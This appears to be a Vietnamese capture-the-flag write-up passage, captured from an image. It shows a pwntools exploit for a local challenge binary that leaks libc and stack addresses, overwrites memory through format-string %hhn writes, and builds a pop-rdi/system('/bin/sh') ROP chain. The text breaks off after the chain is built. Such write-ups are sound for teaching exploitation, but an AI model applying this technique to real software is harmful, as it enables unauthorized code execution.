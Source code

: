- vậy thì ta viết 1 payload ghi từng byte như sau: 

```python
def write_byte(addr,b):
    log.info(f"target : 0x{addr:x}")
    if b == 0:
        b = 256
    fmt = f"%{b}c%8$hhn".encode().ljust(16,b"\x01") + p64(addr)
    assert len(fmt) == 24
    return fmt
```

epx: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

p.sendlineafter(b'>> ',b'1')
p.recvuntil(b'Have this: ')
libc.address = int(p.recvline()[:-1],16) - libc.sym.fgets
log.info(f'leak: {hex(libc.address)}')

p.sendlineafter(b'>> ',b'2')
libc_environ = libc.sym.environ
payload = b'%7$szzzz'
payload += p64(libc.address + 0x1ff8c2 - 2)
p.sendlineafter(b'>> ',payload)
leak_stack = u64(p.recv(6).ljust(8,b'\x00'))

count = leak_stack - 0x118 - 0xc + 3
saved_rbp_main = leak_stack - 0x118
saved_rip = saved_rbp_main + 8
log.info(f'leak_stack: {hex(leak_stack)}')
log.info(f'count: {hex(count)}')
log.info(f'saved_rbp_main: {hex(saved_rbp_main)}')

payload_change_count = b'%128c%8$hhn'
payload_change_count = payload_change_count.ljust(16,b'z')
payload_change_count += p64(count)

p.sendlineafter(b'>> ',b'2')
p.sendlineafter(b'>> ',payload_change_count)

POP_RDI = 0x0000000000028715+libc.address
ret = POP_RDI+1
bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym.system

log.info(f'system: {hex(system)}')
log.info(f'pop_rdi: {hex(POP_RDI)}')
log.info(f'bin_sh: {hex(bin_sh)}')

pop_rdi = ROP(libc).find_gadget(["pop rdi","ret"])[0]
rop = [pop_rdi+1,pop_rdi,next(libc.search(b"/bin/sh\0")),libc.sym.system]
rop = b"".join([p64(i) for i in rop])
```